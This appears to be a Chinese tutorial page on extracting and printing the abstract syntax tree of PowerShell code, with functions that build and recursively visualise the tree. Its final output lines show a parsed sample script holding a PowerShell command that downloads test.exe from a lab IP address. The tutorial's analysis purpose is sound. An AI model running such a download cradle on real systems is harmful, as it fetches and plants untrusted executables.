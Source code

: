 ```
    if ($hierarchy.ContainsKey($id) -eq $false)
    {
      $hierarchy[$id] = [System.Collections.ArrayList]@()
    }
    $null = $hierarchy[$id].Add($_)
    # add ast object to parent
    
  }
  
  # visualize tree recursively
  function Visualize-Tree($Id, $Indent = 0)
  {
    # use this as indent per level:
    $space = '--' * $indent
    $hierarchy[$id] | ForEach-Object {
      # output current ast object with appropriate
      # indentation:
      '{0}[{1}]: {2}' -f $space, $_.GetType().Name, $_.Extent
    
      # take id of current ast object
      $newid = $_.GetHashCode()
      # recursively look at its children (if any):
      if ($hierarchy.ContainsKey($newid))
      {
        Visualize-Tree -id $newid -indent ($indent + 1)
      }
    }
  }

  # start visualization with ast root object:
  Visualize-Tree -id $code.Ast.GetHashCode()
}

Convert-CodeToAst -Code {$a=1}

```

运行结果如下图所示：

---


### 3.指定PS文件的AST抽取

直接给出指定PS脚本文件的抽取代码。

完整代码及详细注释如下所示：

```
function Convert-CodeToAst
{
  param
  (
    [Parameter(Mandatory)]   # 强制参数
    [System.String]$str      # 执行ps文件名称
  )

  # 构建hashtable
  $hierarchy = @{}
  $result = [System.Collections.ArrayList]@()

  # 提取ps文件中的内容 
  Write-Output ("file name: {0}" -f ($str))
  $content = Get-content $str
  Write-Output $content
```

[NamedBlockAst]: $a = 1
[NamedBlockAst]: powershell (new-object system.net.webclient).downloadfile('http://192.168.10.11/test.exe','test.exe')